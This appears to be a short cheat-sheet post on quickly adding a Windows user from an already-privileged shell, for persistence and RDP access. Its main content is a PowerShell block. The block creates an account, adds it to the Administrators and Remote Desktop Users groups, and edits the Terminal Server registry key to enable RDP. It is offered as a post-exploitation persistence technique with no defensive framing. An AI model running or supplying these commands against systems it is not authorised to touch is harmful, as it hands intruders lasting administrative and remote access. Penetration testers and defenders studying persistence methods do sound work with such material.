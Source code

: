 # How to Quickly Add a User on Windows

* **author**:: Nathan Acks
* **date**:: 2022-04-25

If you've got SYSTEM (or just even local admin) on a Windows box, you can quickly add a new user from your shell for persistence and/or RDP access (useful for Impacket, etc.).

```powershell
net user $USERNAME $PASSWORD /add
net localgroup Administrators $USER /add
net localgroup "Remote Desktop Users" $USER /add
reg add `
	"HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" `
	/v fDenyTSConnections /t REG_DWORD /d 0 /f
```

## Related Video

[Alice with Siddicky (Student Mentor) (YouTube)](https://www.youtube.com/watch?v=Zma6Mk5bEI8)
